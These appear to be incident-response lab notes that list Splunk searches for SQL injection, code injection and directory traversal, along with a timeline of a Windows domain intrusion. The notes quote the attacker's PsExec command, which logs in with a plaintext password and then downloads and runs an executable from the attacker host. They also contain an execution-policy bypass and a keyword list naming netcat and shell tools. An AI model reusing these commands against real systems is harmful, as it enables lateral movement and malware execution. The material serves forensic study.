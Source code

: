 `runas /netonly /user:TECH\l.martin "powershell.exe -ep bypass"`

Windows Defender Quarantine

`index="windows_defender" "EventCode=1160"`

Search for SQLi

`index=websrv_logs "SELECT" AND ("UNION ALL" OR "1=1" OR "--" OR "/*")`

Search for Deserialization exploits because Confluence is developed in Java.

For code injection payloads, use `*bash*, *sh*, *nc*, and *netcat*`, as these programs are typically involved to execute commands in web-based exploits. 

For directory traversal attacks, use `id_*` to search for the extraction of SSH private keys, and `/etc/*` for configuration files such as `/etc/passwd`.

Web-based exploits have several formatting limitations, such as whitespaces and other special characters.

To use commands such as bash -c "whoami", attackers commonly URL encode them. E.g., `bash%20-c%20%22whoami%22`.

`host="web01" source="/var/log/apache2/other_vhosts_access.log" ("*bash%20*" OR "*sh%20*" OR "*nc%20*" OR "*netcat%20*" OR "id_*" OR "/etc/*")`

The attacker downloaded the PowerShell script `DomainPasswordSpray.ps1` from the IP address `X`.

`index="windows_powershell" host="CLIENT01" "192.168.48.130"`

`index="windows_powershell" host="CLIENT01" "Rubeus"`

PsExec is used to move laterally to FILE01.

```pwsh
.\PsExec64.exe -accepteula -i \\FILE01 -u TECH\SVCFILE01 -p "Querty09!" cmd /c powershell -Command "& {$client = New-Object System.Net.WebClient; $client.DownloadFile('http://192.168.48.130/application_builder.exe', 'C:\Windows\Tasks\updater.exe'); Start-Process 'C:\Windows\Tasks\updater.exe'}"
```

Windows Security log contains audit events. They are contained in the index `main`:

`index="main" host="FILE01"`

Key activities list:

- 8:05:07.000 AM Thunderbird creates application.iso on the Desktop of a.jones
- 8:06:44.000 AM Binary application_builder.exe (Contained in ISO container) created on the Desktop of a.jones
- 8:06:50.000 AM Binary application_builder.exe is executed by a.jones
- 8:07:43.000 AM Scheduled Task "Updater" was created
- 8:08:26.000 AM Domain Enumeration with PowerView
- 8:09:04.000 AM Password Spraying with Invoke-PasswordSpray Script
- 8:09:17.000 AM Kerberoasting attack with Rubeus
- 8:11:17.000 AM Lateral Movement with PsExec to FILE01
- 8:15:36.000 AM File Access of employee_records.xlsx on FILE01

## Digital Forensics for Incident Responders
